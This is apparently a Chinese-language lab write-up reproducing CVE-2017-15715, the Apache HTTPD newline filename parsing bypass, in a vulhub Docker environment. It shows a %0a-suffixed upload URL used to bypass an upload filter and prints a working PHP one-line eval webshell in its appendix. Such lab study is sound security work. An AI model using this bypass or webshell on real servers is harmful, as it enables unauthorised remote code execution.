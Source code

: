 # 一、概述
CVE-2017-15715 是指Apache HTTPD解析`PHP`的一个漏洞。是由于HTTPD Server在解析`PHP`时。`exp.php\x0A`将被按照PHP后缀进行解析，导致绕过一些服务器的安全策略。

# 二、影响版本
* 2.4.0~2.4.29版本

# 三、靶场复现
* 开始搭建靶场，这里我使用`vulhub`的靶场线下搭建
``` linux
root@wq:/home/wq/vulhub-master/httpd/CVE-2017-15715# ls
1.png  2.png  3.png  docker-compose.yml  Dockerfile  index.php  README.md
root@wq:/home/wq/vulhub-master/httpd/CVE-2017-15715# pwd
/home/wq/vulhub-master/httpd/CVE-2017-15715
root@wq:/home/wq/vulhub-master/httpd/CVE-2017-15715# docker-compose build
root@wq:/home/wq/vulhub-master/httpd/CVE-2017-15715# docker-compose up -d
Creating network "cve-2017-15715_default" with the default driver
Creating cve-2017-15715_apache_1 ... done
CONTAINER ID   IMAGE                   COMMAND                CREATED         STATUS         PORTS                                   NAMES
729352e8049c   cve-2017-15715_apache   "apache2-foreground"   7 seconds ago   Up 6 seconds   0.0.0.0:8080->80/tcp, :::8080->80/tcp   cve-2017-15715_apache_1
```
* 靶场验证：

![图 5](.images/CVE-2017-15715/IMG_20220115-100534943.png)  

# 四、漏洞发现过程
* 备注：此过程有部分的针对性，只作为参考使用
* 找到文件上传位置，正常上传`txt`文件
![图 1](.images/CVE-2017-15715/IMG_20220115-103905146.png)  
* 开始上传PHP木马文件, 上传失败
![图 1](.images/CVE-2017-15715/IMG_20220115-105136865.png)  
![图 2](.images/CVE-2017-15715/IMG_20220115-105203714.png)  
* 查看server服务版本信息
![图 3](.images/CVE-2017-15715/IMG_20220115-105423443.png)  
* 猜测具有`PHP`解析问题，即`CVE-2017-15715`，并开始抓包分析

# 五、漏洞验证
* 观察靶场内的是否上传成功，使用工具为`BP`进行抓包重放
![图 1](.images/CVE-2017-15715/IMG_20220115-125410081.png)  
![图 2](.images/CVE-2017-15715/IMG_20220115-125458716.png)  
![图 4](.images/CVE-2017-15715/IMG_20220115-125534463.png)  
![图 5](.images/CVE-2017-15715/IMG_20220115-125920159.png)  
![图 6](.images/CVE-2017-15715/IMG_20220115-125947114.png)  
![图 7](.images/CVE-2017-15715/IMG_20220115-130003838.png)  
![图 8](.images/CVE-2017-15715/IMG_20220115-130114181.png)  
![图 10](.images/CVE-2017-15715/IMG_20220115-130156739.png)  
* 正常请求自己已经上传成功的PHP木马文件
![图 11](.images/CVE-2017-15715/IMG_20220115-130501353.png)  
* 通过中国蚁剑尝试连接`Webshell`，连接地址为：`http://192.168.10.134:8080/Upload.php%0a`
![图 12](.images/CVE-2017-15715/IMG_20220115-130652656.png)  
![图 13](.images/CVE-2017-15715/IMG_20220115-130730653.png)  
* 进入后台查看文件，发现文件确实存在
![图 14](.images/CVE-2017-15715/IMG_20220115-130833618.png)  

# 六、附录：
* 我的Webshell php一句话木马
```php
<?php
    $a=$_POST['H'];
    eval("$a");
?>  
```

# 七、总结
Apache httpd 换行解析漏洞主要存在与apahce 2.4版本，主要是通过换行解析问题，绕过文件后缀的检测